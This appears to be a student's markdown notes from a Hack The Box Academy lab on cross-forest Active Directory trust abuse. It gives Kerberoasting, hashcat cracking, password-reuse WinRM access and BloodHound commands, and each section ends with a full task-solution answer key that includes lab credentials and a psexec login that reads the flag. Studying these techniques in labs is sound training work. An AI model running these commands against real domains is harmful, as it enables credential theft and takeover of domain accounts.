

### Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

```
# Cross-Forest Kerberoasting

# Enumerating Accounts for Associated SPNs Using Get-DomainUser (PowerView)

PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

# Enumerating the mssqlsvc Account (PowerView)

PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

# Performing a Kerberoasting Attacking with Rubeus Using /domain Flag 

PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

### Admin Password Re-Use & Group Membership

```
# We can use the PowerView function Get-DomainForeignGroupMember to enumerate groups with users that do not belong to the domain, 
# also known as foreign group membership. 
# Let's try this against the FREIGHTLOGISTICS.LOCAL domain with which we have an external bidirectional forest trust.

# Using Get-DomainForeignGroupMember

PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

# The above command output shows that the built-in Administrators group in FREIGHTLOGISTICS.LOCAL 
# has the built-in Administrator account for the INLANEFREIGHT.LOCAL domain as a member. 
# We can verify this access using the Enter-PSSession cmdlet to connect over WinRM.

# Accessing DC03 Using Enter-PSSession

PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

### SID History Abuse - Cross Forest

```
# SID History can also be abused across a forest trust. 
# If a user is migrated from one forest to another and SID Filtering is not enabled, 
# it becomes possible to add a SID from the other forest, 
# and this SID will be added to the user's token when authenticating across the trust. 
```




### Task solution

```
# RDP to 10.129.70.132 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!" 

xfreerdp /v:10.129.70.132 /u:htb-student /p:Academy_student_AD!

# Enumerating Accounts for Associated SPNs Using Get-DomainUser (PowerView)
Import-Module .\PowerView.ps1
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

# Enumerating the mssqlsvc Account
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

# Performing a Kerberoasting Attacking with Rubeus Using /domain Flag 
Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

# Cracking the Hash with Hashcat
hashcat -m 13100 mssqlsvc_TGSTicket.txt /usr/share/wordlists/rockyou.txt
```

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```
# As we saw in the previous section, it is often possible to Kerberoast across a forest trust. 
# If this is possible in the environment we are assessing, we can perform this with GetUserSPNs.py from our Linux attack host.

# Cross-Forest Kerberoasting

GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley             # Using GetUserSPNs.py

# Rerunning the command with the -request flag added gives us the TGS ticket. 
# We could also add -outputfile <OUTPUT FILE> to output directly into a file 
# that we could then turn around and run Hashcat against.

GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley    # Using the -request Flag

# We could then attempt to crack this offline using Hashcat with mode 13100. 
# If successful, we'd be able to authenticate into the FREIGHTLOGISTICS.LOCAL domain as a Domain Admin.
```

# Hunting Foreign Group Membership with Bloodhound-python

```


cat /etc/resolv.conf                           # Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

# Running bloodhound-python Against INLANEFREIGHT.LOCAL:

bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

zip -r ilfreight_bh.zip *.json                 # Compressing the File with zip -r
cat /etc/resolv.conf                           # Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf

# Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL:

bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

# After uploading the second set of data (either each JSON file or as one zip file), 
# we can click on Users with Foreign Domain Group Membership under the Analysis tab 
# and select the source domain as INLANEFREIGHT.LOCAL.
```


### Task solution

```
# SSH to 10.129.179.177 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

# Known Information:
- Cresential: wley:transporter@4
- IP Address of the Domain Controller FREIGHTLOGISTICS.LOCAL: 172.16.5.238

ssh htb-student@10.129.179.177

# Using GetUserSPNs.py , copy hash from created file
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile hash_tgt
cat hash_tgt

# Cracking the Hash with Hashcat
hashcat -m 13100 sapsso_TGSTicket.txt /usr/share/wordlists/rockyou.txt --force

# CTF with  psexec and pass from 2nd question
psexec.py FREIGHTLOGISTICS.LOCAL/sapsso@academy-ea-dc03.inlanefreight.local -target-ip 172.16.5.238

type C:\Users\Administrator\Desktop\flag.txt
```
-----------------------------------------------------